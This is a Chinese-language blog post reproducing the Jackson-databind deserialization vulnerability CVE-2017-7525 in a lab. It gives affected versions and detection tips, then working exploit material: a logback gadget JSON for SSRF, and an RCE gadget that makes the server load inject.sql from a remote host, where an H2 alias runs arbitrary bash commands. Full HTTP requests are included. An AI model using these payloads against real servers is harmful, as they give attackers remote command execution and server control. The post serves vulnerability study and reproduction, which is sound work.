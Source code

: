 ```yaml
---
layout:     post
title:      【漏洞复现】Jackson-databind-远程代码执行漏洞复现与分析（CVE-2017-7525）
subtitle:   反序列化漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```

## 0x00 受影响版本
Jackson-databind 2.X < 2.9.9.1
漏洞检测
1.检查xml相关文件对jackson-databind引入情况，判断当前版本是否低于2.9.9.1版本。
2.排查代码中是否调用了enableDefaultTyping方法，
## 0x01 漏洞原理
该漏洞利用除了需要jackson自身的jar包以外还需要logback-core和h2。
该漏洞是由于Jackson黑名单过滤不完整而导致，当开发人员在应用程序中通过ObjectMapper对象调用enableDefaultTyping方法时，程序就会受到此漏洞的影响，攻击者就可利用构造的包含有恶意代码的json数据包对应用进行攻击，直接获取服务器控制权限。
## 0x02 漏洞环境
https://github.com/cnsimo/vu1hub.git
## 0x03 SSRF
Jackson在进行序列化的时候会循环调用序列化对象所属类的每一个get方法，当调用getConnection()方法的时候，就去再去调DriverManager从而去链接远程的数据库，这也就是造成SSRF的原因 
jdbc:h2:mem: 这种写法用于h2操作内存表，并且能在内存中执行sql语句，然后再通过RUNSCRIPT FROM 'http://localhost/inject.sql'来执行从远程获取的sql文件，当然此处改成直接执行本地语句造成命令执行也是可以的。
*POC*
```["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.80.133:4444/~/test"}]```
```
POST /fuckme HTTP/1.1
Host: IP:8080
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.80.133:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 169
Content-Type: application/x-www-form-urlencoded

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.111.1:9999/~/test"}]
```
![-c667](/img/16027819597645.jpg)

## 0x04 RCE
*POC*
```["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.80.133:8080/inject.sql'"}]```

*inject.sql:*
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOE    xception {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exe    c(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping 1.1.1.1')
```
```
POST /fuckme HTTP/1.1
Host: 192.168.111.130:8080
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.80.133:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 172
Content-Type: application/x-www-form-urlencoded

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.111.1:8080/inject.sql'"}]
```

查看docker进程，成功执行ping 1.1.1.1

![-c762](/img/16027819751564.jpg)

